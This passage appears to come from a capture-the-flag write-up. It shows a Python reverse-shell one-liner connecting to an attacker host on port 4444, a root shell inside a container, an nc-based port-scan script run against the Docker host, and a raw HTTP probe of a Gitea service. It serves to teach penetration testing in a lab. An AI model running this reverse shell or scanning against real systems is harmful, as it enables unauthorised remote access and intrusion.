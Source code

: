 

From there I could use Python to get a reverse shell.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.143",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```


```bash
$ nc -klvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.111.246 47276
/bin/sh: can't access tty; job control turned off
/app # whoami
root
/app #
```

## Getting Access to the Host Machine

I was in as root, but I was in a container. I needed to find a way to the main machine. I looked around the container but did not find anything I could use. I got LinPEAS on it, still nothing.

Netcat was on the machine, so I wrote a small script to scan the host for opened ports.

```python
import os

for i in range(65535):
        command = f"nc -v -z -n -w 1 172.17.0.1 {i}"
        os.system(command)
```

```bash
/tmp # python scan.py
172.17.0.1 (172.17.0.1:22) open
172.17.0.1 (172.17.0.1:80) open
172.17.0.1 (172.17.0.1:3000) open
172.17.0.1 (172.17.0.1:6000) open
172.17.0.1 (172.17.0.1:6001) open
172.17.0.1 (172.17.0.1:6002) open
172.17.0.1 (172.17.0.1:6003) open
172.17.0.1 (172.17.0.1:6004) open
172.17.0.1 (172.17.0.1:6005) open
172.17.0.1 (172.17.0.1:6006) open
172.17.0.1 (172.17.0.1:6007) open
```

Port 80 and 6000 to 6007 were web servers for the same app I already found. Just on different containers.

Port 3000 was more interesting.

```
tmp # nc 172.17.0.1 3000
GET / HTTP/1.1
Host: 172.17.0.1
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Set-Cookie: i_like_gitea=74190fd626c44532; Path=/; HttpOnly; SameSite=Lax
Set-Cookie: _csrf=0tuDhFAnT48O7MznGqBi3iGn2Gw6MTY1NDM0NDM3NDAyODkyNzU4Nw; Path=/; Expires=Sun, 05 Jun 2022 12:06:14 GMT; HttpOnly; SameSite=Lax
Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
X-Frame-Options: SAMEORIGIN
Date: Sat, 04 Jun 2022 12:06:14 GMT
Transfer-Encoding: chunked

```